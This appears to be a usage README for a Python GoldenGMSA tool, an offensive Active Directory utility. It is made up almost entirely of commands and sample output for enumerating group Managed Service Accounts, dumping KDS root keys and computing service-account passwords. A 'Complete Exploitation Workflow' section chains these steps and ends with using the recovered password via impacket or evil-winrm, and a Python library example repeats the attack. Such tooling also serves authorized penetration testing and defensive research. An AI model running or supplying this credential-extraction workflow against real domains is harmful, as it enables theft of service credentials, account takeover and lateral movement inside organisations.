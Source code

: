 # GoldenGMSA Python Usage Examples

## Prerequisites

- Network access to the Active Directory domain controller
- Valid credentials for the domain
- Python 3.7+ with dependencies installed

## Usage Scenarios

### 1. Enumerating gMSAs from a Linux Host

```bash
# Connect to the domain and enumerate all gMSA accounts
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local gmsainfo

# With a specific DC (by IP)
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --dc-ip 10.10.10.5 gmsainfo

# Using LDAPS for a secure connection
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --use-ssl gmsainfo
```

**Expected output:**
```
Authenticating to domain corp.local...
Connected to domain corp.local

sAMAccountName:         svc_gmsa$
objectSid:              S-1-5-21-123456789-987654321-111111111-1234
rootKeyGuid:            46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAABAAAAADAAAA...
----------------------------------------------
```

### 2. Extracting KDS Root Keys

```bash
# Dump all KDS root keys (requires elevated privileges)
python main.py -u 'admin@corp.local' -p 'AdminP@ss' --domain corp.local kdsinfo

# Dump a specific key by GUID
python main.py -u 'admin@corp.local' -p 'AdminP@ss' --domain corp.local kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
```

### 3. Computing gMSA Password (Online Mode)

```bash
# Calculate the password of an identified gMSA
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local compute --sid S-1-5-21-123456789-987654321-111111111-1234

# With specific forest
python main.py -u 'pentester@corp.local' -p 'P@ssw0rd' --domain corp.local --forest corp.local compute --sid S-1-5-21-123456789-987654321-111111111-1234
```

**Expected output:**
```
Authenticating to domain corp.local...
Connected to domain corp.local

Base64-encoded password:	YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXoxMjM0NTY3ODkw...
```

### 4. Offline Mode (with exported data)

```bash
# If you have already extracted the KDS keys and msds-ManagedPasswordID
python main.py compute \
    --sid S-1-5-21-123456789-987654321-111111111-1234 \
    --kdskey AQAAALm45UZXyuYB6Ln7smfkresAAAAQAAAAMgAAADgAAAA... \
    --pwdid AQAAAEtEU0sCAAAAaAEAABAAAAADAAAA...
```

### 5. Authentication Formats

```bash
# UPN format (User Principal Name)
python main.py -u 'user@corp.local' -p 'password' --domain corp.local gmsainfo

# NetBIOS format
python main.py -u 'CORP\user' -p 'password' --domain corp.local gmsainfo

# Simple format (domain will be added automatically)
python main.py -u 'user' -p 'password' --domain corp.local gmsainfo
```

### 6. Complete Exploitation Workflow

```bash
# Step 1: Enumerate gMSAs
python main.py -u 'user@corp.local' -p 'password' --domain corp.local gmsainfo > gmsa_list.txt

# Step 2: Extract KDS keys (if sufficient privileges)
python main.py -u 'admin@corp.local' -p 'adminpass' --domain corp.local kdsinfo > kds_keys.txt

# Step 3: Calculate the password of a target gMSA
python main.py -u 'user@corp.local' -p 'password' --domain corp.local compute --sid <TARGET_SID>

# Step 4: Use the password to access resources
# (via impacket, evil-winrm, etc.)
```

### 7. Programmatic Usage in Python

```python
from golden_gmsa import LdapConnection, LdapUtils, GmsaAccount, RootKey, GmsaPassword

# Establish the connection
with LdapConnection(
    domain='corp.local',
    username='user@corp.local',
    password='password',
    dc_ip='10.10.10.5'
) as conn:
    LdapUtils.set_connection(conn)
    
    # Enumerate gMSAs
    gmsa_accounts = list(GmsaAccount.find_all_gmsa_accounts_in_domain('corp.local'))
    
    for gmsa in gmsa_accounts:
        print(f"Found gMSA: {gmsa.sam_account_name}")
        print(f"  SID: {gmsa.sid}")
        print(f"  Root Key GUID: {gmsa.managed_password_id.root_key_identifier}")
        
        # Extract the root key
        root_key = RootKey.get_root_key_by_guid('corp.local', 
                                                 gmsa.managed_password_id.root_key_identifier)
        
        if root_key:
            # Calculate the password
            password = GmsaPassword.get_password(
                gmsa.sid,
                root_key,
                gmsa.managed_password_id,
                'corp.local',
                'corp.local'
            )
            print(f"  Password (base64): {password.hex()}")
```

## Error Handling

### Error: "Invalid credentials"
```bash
# Verify the credentials
python main.py -u 'user@corp.local' -p 'wrong_password' --domain corp.local gmsainfo
# Error: Invalid credentials
```

### Error: "LDAP server unreachable"
```bash
# Use --dc-ip to specify the DC IP
python main.py -u 'user@corp.local' -p 'password' --domain corp.local --dc-ip 10.10.10.5 gmsainfo
```

### Error: "No results found"
```bash
# Verify that the user has the necessary permissions
# gMSA accounts require specific read permissions
```
